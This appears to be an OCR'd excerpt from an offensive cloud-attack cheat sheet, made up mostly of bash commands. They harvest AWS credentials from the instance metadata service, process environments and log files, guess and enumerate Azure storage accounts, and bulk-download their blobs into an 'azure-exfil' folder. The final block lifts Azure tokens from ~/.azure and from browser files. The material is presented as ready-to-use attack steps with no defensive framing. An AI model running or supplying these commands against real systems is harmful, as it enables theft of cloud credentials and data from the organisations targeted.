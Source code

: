 **AWS Credential Hunting**
```bash
# Search for exposed credentials
curl -s "http://169.254.169.254/latest/meta-data/iam/security-credentials/" 2>/dev/null
curl -s "http://169.254.169.254/latest/user-data" 2>/dev/null

# Check common credential locations
find /home -name ".aws" 2>/dev/null
find /var/log -name "*.log" -exec grep -l "AWS\|aws" {} \; 2>/dev/null

# Environment variable hunting
env | grep -i aws
cat /proc/*/environ 2>/dev/null | grep -a "AWS"

# Test discovered credentials
aws sts get-caller-identity
aws sts get-session-token --duration-seconds 3600
```

#### Azure Initial Access

**Azure Blob Storage Discovery**
```bash
# Install Azure CLI
curl -sL https://aka.ms/InstallAzureCLIDeb | sudo bash

# Enumerate public blob containers
az storage blob list --account-name companyname --container-name '$web' --output table 2>/dev/null

# Common storage account patterns
for suffix in backup logs data files assets; do
    az storage account show --name company${suffix} --output table 2>/dev/null
done

# Download accessible blobs
az storage blob download-batch --destination ./azure-exfil --source publiccontainer --account-name companyname

# Search for Azure credentials
grep -r "DefaultAzureCredential\|azure_client_id\|tenant_id" ./azure-exfil/
```

**Azure AD Token Abuse**
```bash
# Check for existing Azure tokens
ls -la ~/.azure/
cat ~/.azure/accessTokens.json 2>/dev/null

# Extract tokens from browsers (Linux)
find ~/.config -name "*.json" -exec grep -l "access_token" {} \; 2>/dev/null

# Test discovered tokens
az account list --all
az ad user list --output table
```
